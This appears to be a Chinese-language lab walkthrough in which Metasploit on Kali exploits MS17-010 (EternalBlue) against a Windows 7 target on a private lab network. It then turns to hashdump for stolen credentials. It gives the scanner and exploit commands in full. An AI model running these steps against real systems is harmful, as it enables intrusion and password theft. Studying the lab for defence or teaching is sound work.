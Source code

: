 ![image-20241207183833601](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071838767.png)

#### 环境配置

windows防火墙与自动更新关闭

![image-20241207183839443](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071838486.png)

### kali 攻击 windows7

#### 进行攻击

首先通过`msfconsole`打开msf功能

```
msfconsole
```

![image-20241207184609461](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071846502.png)

然后搜索ms17-010脚本

```
search ms17-010
```

![image-20241207184306525](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071843625.png)

对靶机进行扫描，信息收集

```
use auxiliary/scanner/smb/smb_ms17_010
show options
```

![image-20241207184732415](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071847479.png)

接下来配置靶机IP信息，并运行

```
set rhosts 192.168.226.129
run
```

![image-20241207184830056](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071848087.png)

`exploit`切换到攻击模块，并配置靶机IP，运行

```
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.226.129
run
```

![image-20241207185012776](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071850840.png)

利用`hashdump`查看靶机的用户名与密码
